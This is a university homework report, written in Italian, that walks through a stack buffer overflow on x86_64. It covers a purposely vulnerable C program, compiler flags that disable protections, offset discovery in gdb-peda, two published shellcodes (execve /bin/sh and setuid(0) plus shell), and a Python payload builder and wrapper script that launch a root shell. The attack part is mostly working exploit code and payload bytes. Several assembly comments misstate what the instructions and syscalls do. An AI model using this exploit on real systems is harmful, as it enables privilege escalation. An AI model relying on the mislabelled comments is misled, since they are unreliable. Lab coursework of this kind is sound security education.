

# Relazione Homework

| informazioni generali |                                    |     
|:---------------------:|------------------------------------|
|     **_studente_**    | Pizzi Andrea                       |      
|      **_email_**      | pizzi.199517@studenti.uniroma1.it  |      
| **_matricola_**       | 1995517                            |
   
## Traccia 1 - Buffer Overflow
Realizzare un attacco di buffer overflow the permetta di aprire una shell su di un sistema target. A tale scopo si richiede sia di realizzare un programma vulnerabile ad un attacco di buffer overflow, sia di progettare e implementare la sequenza di byte che deve essere iniettata nel buffer per realizzare l’attacco. La shell deve essere eseguita con i privilegi del programma vulnerabile che viene sfruttato per il buffer overflow. (Opzionale) migliorare l’attacco provando a far guadagnare alla shell maggiori privilegi rispetto a quelli del programma di cui si è sfrutta la vulnerabilità.

## Introduzione 
L'obiettivo del progetto è sfruttando una vulnerabilità nota di buffer overflow progettare un attacco shellcode in grado di aprire una shell con permessi di root. Il progetto si articola in una serie di script shell, python e codice C per la simulazione del programma vulnerabile e per l'esecuzione dell'attacco. Nelle sezioni seguenti verrà spiegata la struttura del progetto ed i passi intrapresi per la sua realizzazione.

## Step 0 : Configurazione dell'ambiente di esecuzione

L'intero ambiente di esecuzione dell'attacco è virtualizzato tramite container gestiti da un sistema [podman](https://podman.io/).

* Container docker configurato con sistema operativo **Debian 12 Bookworm** personalizzato con i seguenti tools
     + gdb ( più estensione gdb-peda)
     + editor nano
     + python3

* Programma compilato con GCC 6.2

* Struttura dell'homework (albero delle directory)

     + assembly: codice assembly per shellcode

     + bin: programmi compilati (eseguibili)

     + data: script e file necessari per l'attacco

     + obj: File oggetto

     + src: Sorgenti dei programmi compilati

     + ./:  Dockerfile e script per costruire e lanciare l'ambiente conteinerizzato

## Step 1 : disabilitare le misure di sicurezza standard

Disabilittare la randomizzazione degli indirizzi (per il sistema host)
 `sysctl kernel/randomize_va_space` 

Disabilitare i meccanismi di protezione in fase di compilazione

* `-z execstack`: permetti l'esecuzione di codice arbitario nello stack
* `-fno-stack-protector`: diabilita i meccanismi di protezione dello stack

Il programma C esempio sarà una funzione in grado di leggere sa stdin una stringa, bufferizzarla e successivamente scriverla su un file. 

La funzione C in analisi

```c exploit.c
#include <errno.h>
#include "exploit.h"

int overflow(const char *str)
{
    int fd = creat("output.txt", S_IRWXU);
    char buffer[128]; //< buffer vulnerabile

    if (fd == -1)
    {
        write(2, strerror(errno), 28);
        write(2, "\n", 1);
        return EXIT_FAILURE;
    }
    if (str == NULL)
    { //< evita che il programma termini per lettura di un valore nullo
        write(2,  "Error: not to write ...\n", 25);
        return EXIT_FAILURE;
    }

    printf("Overflow(): str= %s\n", str);
    strcat(buffer, str); //< vulnerabilita' del codice
    printf("Overflow(): buffer= %s\n", buffer);

    if (write(fd, buffer, strlen(str)) == -1)
    {
        write(2, "Error: I/O error ...\n", 22);
        return EXIT_FAILURE;
    }

    return EXIT_SUCCESS;
}
```

Per la compilazione della shellcode invece è stato realizzato il seguente makefile

```makefile Makefile
# directory di compilazione
ODIR=../obj
BDIR=../bin
# compilatore e flags di compilazione 
CC=gcc
CFLAGS=-z execstack -O0 -fno-stack-protector -no-pie -z norelro

# lista dei file da compilare
SRC = $(wildcard *.c)
OBJ = $(patsubst %.c, $(ODIR)/%.o, $(SRC))

# ruoli
all:	$(BDIR)/main

$(ODIR)/%.o: %.c
	$(CC) -c -o $@ $< $(CFLAGS)

$(BDIR)/main: $(OBJ)
	$(CC) -o $@ $(OBJ) $(CFLAGS)


.PHONY: clean

clean:
	rm -f $(ODIR)/*.o *~ $(BDIR)/*~ core
```
La vulnerabilità del programma risiede principalmente nel fatto che non viene effettuano nessun controllo sulla dimensione della stringa che viene scritta nel buffer pertanto qualsiasi stringa di lunghezza maggiore di 128 byte provocherà l'overflow.

## Step 2: Calcolare l'offset dello stack (posizione dello stack pointer `RIP`/`EIP` in x32)

Per l'analisi viene utilizzata un estensione del tradizionale debbuger C gdb con funzionalità avanzate di exploit **gdb-peda**

1. Tramite il comando del debbuger `pattern create` viene generato un file contenente una sequenza di valori generati secondo un pattern
di dimensione maggiore di quella prevista del buffer

2. Si imposta il debbugger per tracciare l'esecuzione del programma target 

3. Si immette come input al programma infetto il file pattern generato (vedere pattern.txt)

4. Tramite il comando `pattern search` viene estratto offset dello stack pointer (nel caso corrente pari a 152 byte)

## Step 3: Assumere il controllo del RIP 

Per testare il controllo del contenuto del registro RIP è stato realizzato uno script python *(versione python3)* 
che genera la stringa da somministrare di dimensione `offset + 6`. Il test permette di verificare il controllo
dei valori nel registro RIP


```python rip.py
MAGIC_N = 152
"""
Scrive nel registro rip il valore WAKEUP
"""
if __name__ == '__main__':
    rip_ = 'WAKEUP'
    inject = (MAGIC_N)  * 'A'  + rip_
    print(inject)
```

## Step 4: Preparare la shellcode

Per la preparazione del codice dell shellcode è necessario in primis realizzare il relativo programma in assembly (notare che un attacco ha una bassa portabilità e la sua riuscita dipenderà anche dall'architettura del processore) in base al processore della macchina da attaccare. In questo caso l'attacco sarà eseguito su una macchina con architettura
AMD64.

Per ragioni di praticità il codice della shellcode è stato recuperato in rete dove si possono trovare esempi di shellcode già
pronte e compilate. Di seguito vengono riportati i codici assembly con i relativi riferimenti.


La seguente shellcode lancia una nuova shell tramite la chiamata alla funzione execve (systemcall 59)
```asm
;Category: Shellcode
;Title: GNU/Linux x86_64 - execve /bin/sh
;Author: m4n3dw0lf
;Github: https://github.com/m4n3dw0lf
;Date: 14/06/2017
;Architecture: Linux x86_64
;Tested on : #1 SMP Debian 4.9.18-1 (2017-03-30) x86_64 GNU/Linux

section .text             ; Sezione del codice
  global _start           ; entry point
    _start:               ;
      push rax            ; inserisce il contenuto dallo stack e lo pone in rax
      xor rdx, rdx        ; effettua lo xor per elminare i caratteri dannosi alla shellcode come '\0'
      xor rsi, rsi        ; 
      mov rbx,'/bin//sh'  ; pone nel registro rbx il primo argomento (argv[1]) dell'exec in questo caso il nome del programma da eseguire
      push rbx            ; Inserisce dallo stack il prossimo valoree lo pone in rbx
      push rsp            ; Inserisce  dallo stack il prossimo valore e lo pone in rsp
      pop rdi             ; Estraee dallo stack e lo pone in rdi
      mov al, 59          ; Invoca la procedura execve tramite systemcall
      syscall             ;

; Comandi per la compilazione e linking
; nasm -f elf64 sh.s -o sh.o
; ld sh.o -o sh

;(23 bytes) compiled \x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05
```

codice assebly che effettua l'operazione di setuid(0) per acquisire privileggi di root e quindi lanciare una shell con gli stessi privileggi

```asm
; https://shell-storm.org/shellcode/files/shellcode-77.html
; setuid(0) + execve(/bin/sh) - just 4 fun. 
; xi4oyu [at] 80sec.com
section .text
        global _start

_start:
        xorq %rdi,%rdi                  ; elimina i caratteri non validi dal registro
        mov $0x69,%al                   ; preprare il registro per la systemcall 69 (msgsnd)
        syscall                         ;
        xorq   %rdx, %rdx               ; elimina i caratteri non validi per la shellcode dal registro 
        movq   $0x68732f6e69622fff,%rbx ; preparazione della syscall execve (argomenti)
        shr    $0x8, %rbx               ; 
        push   %rbx                     ; salva il valore del registro rbx nello stack 
        movq   %rsp,%rdi                ; 
        xorq   %rax,%rax                ; ...
        pushq  %rax                     ; ...
        pushq  %rdi                     ; ...
        movq   %rsp,%rsi                ; 
        mov    $0x3b,%al                ; carica il registro con il codice 59 (3b)
        syscall                         ; 
        pushq  $0x1                     ; systemcall setuid(0) 
        pop    %rdi                     ;
        pushq  $0x3c                    ;
        pop    %rax                     ;
        syscall                         ;


; compiled shellcode 
; \x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05
```
La stringa esadecimale già fornita come risorsa può essere ottenuta compilando il codice assembly ed analizzandolo con un qualsiasi editor esadecimale altrimenti si può fare ricorso all'utility di
sistema **objdump**


## Step 5: Preparare la stringa malevola

Calcolato la stringa per la shellcode abbiamo ottenuto quasi tutti gli elementi necessari per creare la stringa da passare
al programma perchè la shellcode venga eseguita. Attualmente disponiamo delle seguenti informazioni

- Offset del registro RIP rispetto alla cima dello stack (152 byte)
- Shelcode in valori esadecimali da eseguire

Non rimane che individuare l'indirizzo di memoria con cui sostituire il valore del registro RIP in modo tale che la shellcode venga effettivamente eseguita
per fare ciò prepariamo un apposito input del programma. La stringa che sarà costruita per lo scopo può essere suddivisa nelle seguenti parti

```
����������������������������������������������������������������H1��iH1�H��/bin/shH��SH��H1�PWH��;j_j<XAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0���� offset + 6 = 152 + 6 = 158 byte
|---------------------------------------------------------------|------------------------------------------------|---------------------------------------|-----|
        Area di valori nop per allinemento della memoria(\x90)            Codice Shellcode da eseguire                padding di valori casuali(\x41)   valore RIP
```

Il valore RIP sarà attualmente scelto a caso l'interesse effettivo attualmente è sulla parte iniziale della stringa. La parte iniziale della stringa è fondamentale perchè la shellcode venga eseguita correttamente in quanto serve a riservare un pool di indirizzi di memoria contigui che verrano utilizzati come possibili valori da inserire nel RIP. 

Più nel dettaglio una volta avvenuto overflow del programma in esecuzione il processore continuerà a processare i valori inseriti nello stack fino al byte 152 rispetto all'indirizzo puntato dallo stack-pointer `$eip` i byte seguenti verrano interpretati come indirizzi di ritorno della procedura. Sostituiendo accuratamente tali byte il IC effettuerà un salto all'indietro nell'area di valori `nop`. Processati tutti i valori nop al termine dell'area si troverà il codice della shellcode che verrà caricato correttamente dall'inizio e sarà eseguito come un nuovo programma. 


La scelta dell'indirizzo tra quelli occupati dal blocco di valori di nop deve essere effettuata con criterio cercando di prendere l'indirizzo più centrale del blocco per essere sicuri che tra un esecuzione all'altra la shellcode funzioni sempre. Scegliendo infatti indirizzi troppo vicini all'inizio o alla fine del blocco si rischia, a causa di altri valori che si possono trovare nello stack e alla randomicità nell'assegnazione della aree di memoria, di 'mancare' l'indirizzo utilizzato per il salto e di non trovare nella posizione il valori nop. Generalmente si consiglia di selezionare un'area ababstanza ampia di valori nop per facilitare l'operazione di scelta dell'indirizzo, in questo caso la dimensione utilizzata è stata di 64 byte.

Scelto quindi l'indirizzo a cui saltare basta sostituire il valore RIP casuale con l'indirizzo scelto e la stringa malevola è pronta per poter essere utilizzata.

La procedura per l'homework  è stata eseguito tramite **gdb-peda** e uso di script python. Tramite l'utility di ispezione della memoria di gdb-peda sono stati individuati gli indirizzi mentre tramite lo script python è stata costruita la stringa mostrata all'inizio.


Lo script python

```python inject.py

MAGIC_N = 152 # 152 con ENV
if __name__ == '__main__':
    no_op = b'\x90' * 64
    shell_code = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
    padding = b'\x41' * ( MAGIC_N - len(no_op) - len(shell_code) )
    rip_ = b'\x30\xef\xff\xff\xff\x7f' # 0x7fffffffef30
    inject = no_op + shell_code + padding + rip_

    with open("inject", "wb") as f:
        f.write(inject)
```

## Step 6: Passare la stringa in input al programma senza incovenienti di codifica

Fino alla versione di python2 la gestione delle stringhe non che la loro rappresentazione era effettuata in modo basilare senza codifiche da python3 la gestione delle stringhe è molto più organica convertendo i caratteri in oggetti stringa a cui viene associata una codifica, tutto ciò sarà ma meno utile per i nostri scopi. Applicando una codifica sui caratteri della stringa potrebbero cambiare i caratteri effettivi oppure essere eliminati alterando così la shellcode progettata. Per evitare tale incoveniente viene adottata una soluzione alternativa all'uso dell'instruzione print. Prima di tutto i caratteri manipolati vengono utilizzato solamente in formato binario. Dopo di che la stringa non viene visualizzati su standard di input/output ma copiata in un file binario. In tal modo i dati vengono gestiti unicamente come insieme di byte senza incovenienti di codifica.


## Step 7: Gestire le variabili d'ambiente

Un altro ostacolo tecnico alla shellcode sono la presenza di varibili d'ambiente nei diversi ambienti di esecuzione (shell, gdb etc). Quando viene eseguito un qualsiasi programma il sistema inserisce di automatico in cima allo stack i valori relativi alle variabili d'ambiente ciò provoca lo shift delle istruzioni nello stack alterando così l'efficacia della shellcode progettata. Per evitare tali incovenienti è necessario trovare una soluzione per rendere l'esecuzione della shell code indipendente dalla presenza o meno di delle variabili d'ambiente. Una soluzione rapido ed efficace è l'uso di uno script wrapper che modifica opportunamente le variabili d'ambiente perchè la shellcode possa funzionare. La funzione wrapper utilizzata è uno script sh preso dal seguente post sul sito [StackOverflow](https://stackoverflow.com/) 

[Buffer overflow works in gdb but not without it](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it).


Script sh utilizzato
```sh wrap.sh
#!bin/sh
while getopts "dte:h?" opt ; do
  case "$opt" in
    h|\?)
      printf "usage: %s -e KEY=VALUE prog [args...]\n" $(basename $0)
      exit 0
      ;;
    t)
      tty=1
      gdb=1
      ;;
    d)
      gdb=1
      ;;
    e)
      env=$OPTARG
      ;;
  esac
done

shift $(expr $OPTIND - 1)
prog=$(readlink -f $1)
shift
if [ -n "$gdb" ] ; then
  if [ -n "$tty" ]; then
    touch /tmp/gdb-debug-pty
    exec env - $env TERM=screen PWD=$PWD gdb -tty /tmp/gdb-debug-pty --args $prog "$@"
  else
    exec env - $env TERM=screen PWD=$PWD gdb --args $prog "$@"
  fi
else
  exec env - $env TERM=screen PWD=$PWD $prog "$@"
fi
```

## Step 8: Lancia una shell con permessi di root

Abbiamo ottenuto tutti gli elementi per eseguire l'attacco di shellcode preparato non rimane che lanciarlo eseguendo i seguenti passi

1. Si genera tramite lo script inject.py il file contenente la stringa da passare al programma vulnerabile
2. L'attacco viene lanciato tramite il seguente script sh(load.sh) che carica la stringa e la somministra al programma tramite il programma wrapper wrap.sh.

```sh
shellcode=$(cat inject)
bash wrap.sh main $shellcode
```

3. Viene aperta una nuova shell con i permessi di setuid previsti (il file appartiene al root quindi il programma verrà eseguito con privileggi di root).


## Risultati sperimentali: esempio di attacco




**notare che nell'esempio mostrato non viene mai chiesto all'utente di inserire una password neanche per lanciare una shell come root. Notare anche che l'utente user_01 non potrebbe neanche diventare root non essendo un utente sudoers**